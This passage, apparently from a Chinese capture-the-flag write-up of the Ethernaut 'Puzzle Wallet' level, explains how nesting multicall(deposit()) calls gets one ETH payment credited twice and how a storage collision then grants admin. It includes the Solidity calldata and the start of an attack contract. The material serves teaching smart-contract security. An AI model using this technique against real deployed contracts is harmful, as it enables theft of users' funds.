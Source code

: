 携带1ETH并调用` multicall() `，合约余额变为1ETH，账户balance变为2ETH：

![image-20250216152918168](./assets/image-20250216152918168.png)

但真正的` multicall() `中有个` depositCalled `来控制每次只能执行一次` deposit() `；我们可以在一个` multicall() `中分别调用两次` multicall(deposit()) `：

```solidity
multicall([multicall(deposit()), multicall(deposit())]);
```

3. 构造calldata

```solidity
// deposit的calldata
bytes[] memory deposit_data = new bytes[](1);
deposit_data[0] = abi.encodeWithSignature("deposit()");

// multicall的calldata
bytes[] memory multicall_data = new bytes[](2);
multicall_data[0] = multicall_data[1] = abi.encodeWithSignature("multicall(bytes[])", deposit_data);
```

4. 取款，并设置admin

最后就是设置` maxBalance `为我们的地址，即admin；



### 攻击

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;
pragma experimental ABIEncoderV2;

contract PuzzleProxy {
    // owner
    address public pendingAdmin;
    // maxBalance
    address public admin;

    function proposeNewAdmin(address _newAdmin) external {}

```